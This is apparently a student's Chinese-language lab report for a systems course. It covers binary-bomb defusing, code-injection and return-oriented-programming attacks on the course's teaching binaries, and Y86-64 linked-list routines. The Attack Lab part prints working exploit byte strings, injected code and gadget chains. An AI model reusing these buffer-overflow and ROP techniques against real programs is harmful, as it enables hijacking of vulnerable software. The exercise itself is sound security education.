  401148:  83 fb 05               cmp    $0x5,%ebx  # 比较 ebx 与 5
  40114b:  7e e8                  jle    401135 <phase_6+0x41>  # if ebx <= 5 -> jmp 401135
  40114d:  49 83 c5 04            add    $0x4,%r13  # r13 += 4
  401151:  eb c1                  jmp    401114 <phase_6+0x20>  # -> 401114
```

输入六个数字，保存在 mem(rsp) 到 mem(rsp + 20) 中。后面是一段循环，写成 C 风格的代码为：

```C
for (int i = 0; i < 6; i++){
    if (mem[rsp] > 6)
        explode_bomb();
    for (int j = i + 1; j < 6; j++){
        if (mem[rsp + j*4] == mem[rsp + i*4])
            explode_bomb();
    }
}
```

这部分代码要求输入互不相同的六个小于等于6的数。再往后看：

```assembly
  401153:  48 8d 74 24 18         lea    0x18(%rsp),%rsi  # rsi = rsp + 24
  401158:  4c 89 f0               mov    %r14,%rax  # rax = r14
  40115b:  b9 07 00 00 00         mov    $0x7,%ecx  # ecx = 7
  401160:  89 ca                  mov    %ecx,%edx  # edx = ecx
  401162:  2b 10                  sub    (%rax),%edx  # edx = 7 - mem(rax)
  401164:  89 10                  mov    %edx,(%rax)  # mem(rax) = edx
  401166:  48 83 c0 04            add    $0x4,%rax  # rax = rsp + 4
  40116a:  48 39 f0               cmp    %rsi,%rax  # 比较 rsi 与 rax
  40116d:  75 f1                  jne    401160 <phase_6+0x6c>  # 如果不等，跳转

```

这一部分的内容将输入的每一个数用7减。再往后看：

```assembly
  40116f:  be 00 00 00 00         mov    $0x0,%esi  # esi = 0
  401174:  eb 21                  jmp    401197 <phase_6+0xa3>  # 跳转 401197
  401176:  48 8b 52 08            mov    0x8(%rdx),%rdx  # rdx = mem(rdx + 8)
  40117a:  83 c0 01               add    $0x1,%eax  # eax++
  40117d:  39 c8                  cmp    %ecx,%eax  # 比较 eax 与 ecx
  40117f:  75 f5                  jne    401176 <phase_6+0x82>  # 不等则循环
  401181:  eb 05                  jmp    401188 <phase_6+0x94>  # -> 401188
  401183:  ba d0 32 60 00         mov    $0x6032d0,%edx  # edx = 0x6032d0
  401188:  48 89 54 74 20         mov    %rdx,0x20(%rsp,%rsi,2)  # mem(rsp + 2*rsi + 0x20) = rdx
  40118d:  48 83 c6 04            add    $0x4,%rsi  # rsi += 4
  401191:  48 83 fe 18            cmp    $0x18,%rsi  # 比较rsi和0x18
  401195:  74 14                  je     4011ab <phase_6+0xb7>  # 相等，跳转
  401197:  8b 0c 34               mov    (%rsp,%rsi,1),%ecx  # ecx = mem(rsi + rsp + 1)
  40119a:  83 f9 01               cmp    $0x1,%ecx  # 比较 ecx 和 1
  40119d:  7e e4                  jle    401183 <phase_6+0x8f>  # 小于则跳转循环
  40119f:  b8 01 00 00 00         mov    $0x1,%eax  # eax = 1
  4011a4:  ba d0 32 60 00         mov    $0x6032d0,%edx  # edx = 0x6032d0
  4011a9:  eb cb                  jmp    401176 <phase_6+0x82>  # -> 401176(循环)
```

`0x6032d0`中的内容是：（顺便说一下下面图片分辨率突然降低是因为晚上到点显示器断电了，只能回到笔记本上）


这是一个类似链表的结构。

上面这段程序C风格的代码：

```C
for (int rsi = 0; rsi < 24; rsi += 4) {
    ecx = mem[rsi / 4];
    if (ecx > 1) {
        eax = 1;
        edx = 0x6032d0;
        do {
            edx = *(edx + 8);
            eax++;
        } while (mem[rsi / 4] != eax);
    }
    else {
        edx = 0x6032d0;
    }
    *(rsp + 2 * rsi + 0x20) = edx;
}
```

假设此时被7减过后的六个数为A~F。`0x6032d0`是一个链表，初始时`edx = 0x6032d0`为链表节点的起始位置，而edx + 8是next指针的地址，这就是一个循环寻址的过程。程序将mem(rsp + 0x20)到mem(rsp + 0x48)分别设置成了node6、node5、node4、node3、node2、node1。

再往后看：

```assembly
  4011ab:  48 8b 5c 24 20         mov    0x20(%rsp),%rbx    # rbx = mem(rsp + 0x20)
  4011b0:  48 8d 44 24 28         lea    0x28(%rsp),%rax  # rax = rsp + 0x28
  4011b5:  48 8d 74 24 50         lea    0x50(%rsp),%rsi  # rsi = rsp + 0x50
  4011ba:  48 89 d9               mov    %rbx,%rcx  # rcx = rbx = mem(rsp + 0x20)
  4011bd:  48 8b 10               mov    (%rax),%rdx  # rdx = mem(rax) = mem(rsp + 0x28)
  4011c0:  48 89 51 08            mov    %rdx,0x8(%rcx)  # mem(rsp + 0x28) = mem(rsp + 0x28)
  4011c4:  48 83 c0 08            add    $0x8,%rax  # rax = rax + 8
  4011c8:  48 39 f0               cmp    %rsi,%rax  # 比较 rax 和 rsi 
  4011cb:  74 05                  je     4011d2 <phase_6+0xde>  # 如果相等，跳转4011d2
  4011cd:  48 89 d1               mov    %rdx,%rcx  # 否则，rcx = rdx
  4011d0:  eb eb                  jmp    4011bd <phase_6+0xc9>  # 跳转4011bd
  4011d2:  48 c7 42 08 00 00 00 movq   $0x0,0x8(%rdx)  # mem(rdx + 8) = 0
```

上面这段代码则在修改每个节点next指针的指向，头节点next指针最后被置为0。

最后一段代码：

```assembly
%rdx = 0x6032e0
%rbx = *(%rsp + 0x20)
  4011d9:  00
  4011da:  bd 05 00 00 00         mov    $0x5,%ebp  # ebp = 5
  4011df:  48 8b 43 08            mov    0x8(%rbx),%rax  # rax = mem(rbx + 8)
  4011e3:  8b 00                  mov    (%rax),%eax  # eax = mem(rax)
  4011e5:  39 03                  cmp    %eax,(%rbx)  # 比较是否相等
  4011e7:  7d 05                  jge    4011ee <phase_6+0xfa>  # 小于则爆炸
  4011e9:  e8 4c 02 00 00         callq  40143a <explode_bomb>
  4011ee:  48 8b 5b 08            mov    0x8(%rbx),%rbx  # rbx = 下一个节点地址
  4011f2:  83 ed 01               sub    $0x1,%ebp  # ebp--
  4011f5:  75 e8                  jne    4011df <phase_6+0xeb>  # 不为0则循环：4011df
  4011f7:  48 83 c4 50            add    $0x50,%rsp
  4011fb:  5b                     pop    %rbx
  4011fc:  5d                     pop    %rbp
  4011fd:  41 5c                  pop    %r12
  4011ff:  41 5d                  pop    %r13
  401201:  41 5e                  pop    %r14
  401203:  c3                     retq  
```

这是一个循环，要求链表单调递减（被7减过）。根据我们看到的node1~6的内容，单调递减的顺序是：3，4，5，6，1，2，再被7减一次即可还原，就是：`4 3 2 1 6 5`。


终于拆完了……也太磨人了……

### 实验总结

经过本次实验，我掌握了x86汇编和反汇编代码的理解与分析，主要是明白了各种形式的数据在汇编代码里的组织形式，比如数组、字符串、链表等等，以及学会了gdb查看内容，收获颇大。由于学校的其他课程都没有学习x86的汇编，所以这个实验对我来说主要的阻碍还是熟悉x86的指令格式。~~并且这个实验随着步骤往后越来越繁琐，要阅读的代码越来越长，不得不感叹高级语言的好~~。

## e 实验环境变动

因为这学期 OS 课的需求，从虚拟机换成了双系统，从之后的实验环境如下：



终端也从`sprout@sprout-virtual-machine`变为`sprout@sprout-KLVL-WXX9`：



## 3 Attacklab

### Part I: Code Injection Attacks

#### Level 1（Phase 1）

这一部分的目的是，通过缓冲区写溢出的方式，将返回值修改至函数`touch1()`。

首先我们需要反汇编`ctarget`，找到相应的函数信息。



实验`Writeup`告诉我们，执行的是`test`函数，这个函数位于`0x0000000000401968`处，其调用了`getbuf`函数，这个函数的反汇编：

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret    
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

这里的第一行告诉我们栈上空间为`0x28`也就即40个字节，所以只需要将前40个字节随便填写，后面改成`touch1`的地址即可。查反汇编得知这个函数的地址在`0x00000000004017c0`。

实验Writeup提醒：注意字节序的问题。我的电脑是小端机，所以提供给`hex2raw`的字符串可以是：

```
20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 c0 17 40
```

> 为达到验证目的，今后无用字符都用本人学号来填充。

保存为`level1.txt`，做测试。



#### Level 2（Phase 2）

这一部分需要注入代码，实现类似Level1的结果——调用`touch2()`。

根据Writeup的代码，想要成功，不仅是要把返回值设置成`touch2`的地址，还要把第一个参数设置成`cookie`，也就是我们这里的`0x59b997fa`，其中第一个参数放在`%rdi`寄存器中。

通过之前的反汇编代码，查到`touch2()`的地址为`0x00000000004017ec`。

```assembly
movq	$0x59b997fa, %rdi
pushq	$0x4017ec
retq
```

这里用`ret`，通过弹出之前将`touch2`函数地址压栈的结果，将`touch2`的地址传给了PC。

将上面这三条代码保存，让 gcc 生成汇编。



汇编代码序列是

```
48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3
```

现在我们要将这段程序放在栈的特定位置，冒充数据，然后在之前的`touch1`位置改成这段程序的地址。这里我们选择在栈的开始位置注入这段代码，现在的任务是找到`%rsp`在哪。

借助 GDB 来找：



所以`%rsp`在`0x5561d668`，构造字符串：【注入代码】-【无用字符】-【注入代码地址】

```
48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 68 D6 61 55
```

保存为`level2.txt`，做测试。



#### Level 3（Phase 3）

这一部分和前面差不多，只不过传入的参数从`int`变成了`char*`也就是字符串。

Writeup中说，提供给我们`hexmatch`函数进行判断，所以我们只需要传入一个字符串`59b997fa`即可（注意结尾的`\0`）。

并且，根据提示

> When functions `hexmatch` and `strncmp` are called, they push data onto the stack, overwriting portions of memory that held the buffer used by `getbuf`. As a result, you will need to be careful where you place the string representation of your cookie.

这说明`hexmatch`调用时可能会覆盖`getbuf`栈帧的数据，所以需要小心对待字符串位置。

再看看给我们的字符串地址：

```C
char *s = cbuf + random() % 100;
```

说明`s`的位置是随机的，保险起见，这里字符串我们选择放在`test`函数的栈帧中。用 GDB 找相应的 `%rsp` 位置：



注入代码为：

```assembly
movq	$0x5561dca8, %rdi
pushq	$0x4018fa
retq
```

之后的步骤和 Level 2 差不多，就不一步步截图了，最后构造出来的字符串可以是：

```
48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

保存为`level3.txt`，做测试。



### Part II: Return-Oriented Programming

**限制**：栈上不可插入可执行代码。

需要在已有程序中寻找以`ret`结尾的特定指令序列（称之为`gadget`），每个`gadget`结束后跳转到下一个`gadget`，就这样连续执行一系列的指令代码来对程序进行攻击。

#### Level 2（Phase 4）

需要做的和 Phase 2 一样，只不过处理手段要按照**限制**来做。

README 提示我们，`gadget`需要从`farm.c`中获取，并且编译的时候需要`-Og`，那么我们先编译`fram.c`，获得汇编代码，看看有哪些可以用。

> - All the gadgets you need can be found in the region of the code for rtarget demarcated by the functions `start_farm` and `mid_farm`.
>
> - You can do this attack with just two gadgets. 

我们在 Phase 2 的汇编代码中用到

```assembly
movq	$0x59b997fa, %rdi
pushq	$0x4017ec
retq
```

用`gadget`来做，需要用到两个指令：`popq`和`movq`。`popq`会把栈顶的 cookie 弹出到某寄存器，再用`movq`命令传送给`%rdi`，也即

```assembly
popq	%rax
movq	%rax, %rdi
```

查表得知，第一行的指令为`58`，可以用

```assembly
0000000000000035 <setval_424>:
  35:	f3 0f 1e fa          	endbr64 
  39:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  3f:	c3 
```

> 注意这里是在 farm.c 中的地址，要想使用，待会还需要获得这段代码在 `rtarget` 内的值。

第二行的指令为`48 89 C7`，可以用

```assembly
0000000000000014 <addval_273>:
  14:	f3 0f 1e fa          	endbr64 
  18:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  1e:	c3   
```

再将`rtarget`反汇编，我们所需要的两段`gadget`的地址分别是：`0x4019b9`、`0x4019a2`。





所以我们构造的字符串可以是：

```
20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 B9 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

保存为`level2_4.txt`，做测试。



#### Level 3（Phase 5）

需要做的和 Phase 3 一样，只不过处理手段要按照**限制**来做。

在 Level 3 中，栈的位置是随机的，只能用`栈顶地址 + 偏移量`来找到字符串。

重复 Phase 3 的思路：首先：`movq	%rsp, %rax`，这个指令的指令字节为 `48 89 e0`，这一步的地址是`0x401a06`。



然后：`movq	%rax, %rdi `，这个指令的指令字节为 `48 89 c7`，这一步的地址是`0x401a06`。



> 其实这一步有更加现成的`gadget`，但是还是按照要求从farm里找。

然后：`popq	%rax`，这个指令的指令字节为`58`，这一步的地址是`0x4019cc`。



然后：`movl	%eax, %edx`，这个指令的指令字节为`89 c2`，这一步的地址是`0x4019dd`。



然后：`movl	%edx, %ecx`，这个指令的指令字节为`89 d1`，这一步的地址是`0x401a70`。



然后：`movl	%ecx, %esi`，这个指令的指令字节为`89 ce`，这一步的地址是`0x401a13`。



然后：`lea	(%rdi, %rsi, 1), %rax`，这个指令直接可以找到，地址是`0x4019d6`。



最后：`movq	%rax, %rdi`，这个指令上一 Phase 用过，位于`0x4019a2`。

总上，我们构造一个字符串：

```
20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 CC 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

保存为`level3_5.txt`，做测试：



### 实验总结

是一个做起来非常有趣的 lab！也学到了很多东西！我们一般做程序开发，都忽视了缓冲区的安全问题，在我原来的印象中，这个安全问题就是 Segmentation Fault 之类的，没想到还可以用来做程序攻击，还能想到利用自己的子程序段攻击自己的方法，感觉收获颇丰！

并且，学完之后对栈的理解更加地深入，今后也会在程序设计中更多的注意到缓冲区（更宽泛地讲：程序）的安全问题。

同时，我注意到在新的 C 标准中，引入了 scanf_s，strcpy_s 等安全的函数，这些函数都添加了边界检查。但是在实际使用中，由于兼容性的问题，除了 Visual Studio 之外这些安全函数都没有得到很好的支持，暑假有空的时候我觉得可以做一些调研，看看各个编译器现在是如何解决类似问题的。

## 4 Architecturelab

> 由于实验 Writeup 较老，与最新的 gcc 出现了一些适配问题，经过一些尝试找到了成功编译 sim 的方法：
>
> - 在 `./sim` 下各个子文件夹的 `Makefile` 中的 `CFLAGS` 和 `LCFLAGS` 后面加上 `-fcommon`，如
>
> ```makefile
> CFLAGS=-Wall -O1 -g -fcommon
> LCFLAGS=-O1 -fcommon
> ```

### Part A

在 `./sim/misc` 下完成这一部分。这一部分需要我们用 `Y86-64` 汇编实现 `examples.c` 中的三个与链表有关的函数。

```C
/* linked list element */
typedef struct ELE {
    long val;
    struct ELE *next;
} *list_ptr;

/* sum_list - Sum the elements of a linked list */
long sum_list(list_ptr ls);
/* rsum_list - Recursive version of sum_list */
long rsum_list(list_ptr ls);
/* copy_block - Copy src to dest and return xor checksum of src */
long copy_block(long *src, long *dest, long len);
```

#### sum_list

链表迭代求和函数，这个比较简单，直接给出：（篇幅限制，这里仅仅给出一些关键代码，完整代码见`./sim/misc/sum_list.ys`）

```assembly
main:
        irmovq	ele1, %rdi 
        call	sum_list
        ret
sum_list:
        irmovq	$0, %rax
        jmp	test
while:
        mrmovq	(%rdi), %rsi
        addq	%rsi, %rax
        mrmovq	8(%rdi), %rdi
test:
        andq	%rdi, %rdi
        jne	while
        ret
```

之后，先用`yas`汇编，再用`yis`进行模拟，结果如图：



执行Writeup里的链表example（分别是`0xa`，`0xb0`，`0xc00`），得到结果应该是`0xcba`，这与`%rax`结果相符。

#### rsum_list

改用递归方法进行求和，这个也比较简单，需要注意的是对退出条件需要做检查。

```assembly
rsum_list:
        andq	%rdi, %rdi
        je	rec_exit
        mrmovq	(%rdi), %rbx
        mrmovq	8(%rdi), %rdi
        pushq	%rbx
        call	rsum_list
        popq	%rbx
        addq	%rbx, %rax
        ret
rec_exit:
        irmovq $0, %rax
        ret
```

之后，先用`yas`汇编，再用`yis`进行模拟，结果如图：



结果应该是`0xcba`，这与`%rax`结果相符。

#### copy_block

这一部分比前面又复杂了一点，不过只是工作量上的。要求我们把一个数组复制到另一个数组，并且还要计算各个数组项的 Xor 值。但是写起来思路还是比较简单，按照 C 代码的逻辑顺序来改写即可。

```assembly
copy_block:
        irmovq	$8, %r8
        irmovq	$1, %r9
        irmovq	$0, %rax
        andq	%rdx, %rdx
        jmp	should_exit
while:
        mrmovq	(%rdi), %r10
        addq	%r8, %rdi
        rmmovq	%r10, (%rsi)
        addq	%r8, %rsi
        xorq	%r10, %rax
        subq	%r9, %rdx
should_exit:
        jne	while
        ret
```

之后，先用`yas`汇编，再用`yis`进行模拟，结果如图：

